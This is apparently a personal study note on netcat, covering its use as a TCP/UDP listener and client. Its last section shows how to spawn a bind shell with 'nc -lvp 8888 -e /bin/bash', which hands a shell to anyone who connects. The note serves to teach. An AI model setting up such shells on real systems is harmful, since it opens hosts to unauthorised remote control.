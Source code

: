 
### General Notes

Allows various operations on TCP/UDP [[Transport Layer]] connections.
- `nc` for short.
- Used in [[WebApplication Fingerprinting]].

> Both a network client and a network server.

---
### `netcat` as a server: Listener

- `netcat` to act as a server to listen on a specific port.
```
nc -lvp 8888

nc -lvup 9999
```
>`-l` flag to listen.
>`-v` flag for verbosity.
>`-p` flag to choose [[Port]] `8888`.
>`-u` flag for `udp`.

---
### `netcat` as a client: Connector

- `netcat` to act as a client to a specific target [[IP]] address and port.
```
nc -v <ip-address> <port>

nc -vu <ip-address> <port>
```

---

### `netcat` to spawn bind shell

On the server side, add the flag `-e` with the argument `/bin/bash`.
- This executes the given program upon connection by a client.

* Server side: `nc -lvp 8888 -e /bin/bash`
* Client side: `nc -v <server-ip> 8888

> Now, the client can execute binary commands, and a bind shell is spawned.

---
